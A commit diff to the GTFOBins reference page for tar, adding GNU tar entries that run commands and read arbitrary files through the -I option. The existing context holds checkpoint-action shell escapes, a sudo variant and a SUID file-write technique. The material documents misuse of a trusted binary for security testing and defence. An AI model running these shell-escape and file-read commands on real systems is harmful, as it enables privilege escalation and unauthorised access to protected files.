

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/tar.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Add tar execute-non-interactive and file-read

```diff
--- a/_gtfobins/tar.md
+++ b/_gtfobins/tar.md
@@ -2,6 +2,9 @@
 functions:
   execute-interactive:
     - code: tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
+  execute-non-interactive:
+    - description: This only works for GNU tar.
+      code: tar xf /dev/null -I '/bin/sh -c "id 1>&2"'
   sudo-enabled:
     - code: sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
   suid-limited:
@@ -13,4 +16,9 @@ functions:
         TF=$(mktemp)
         echo data > "$TF"
         tar c --xform "s@.*@$LFILE@" -OP "$TF" | tar x -P
+  file-read:
+    - description: This only works for GNU tar.
+      code: |
+        LFILE=file_to_read
+        tar xf "$LFILE" -I '/bin/sh -c "cat 1>&2"'
 ---
```
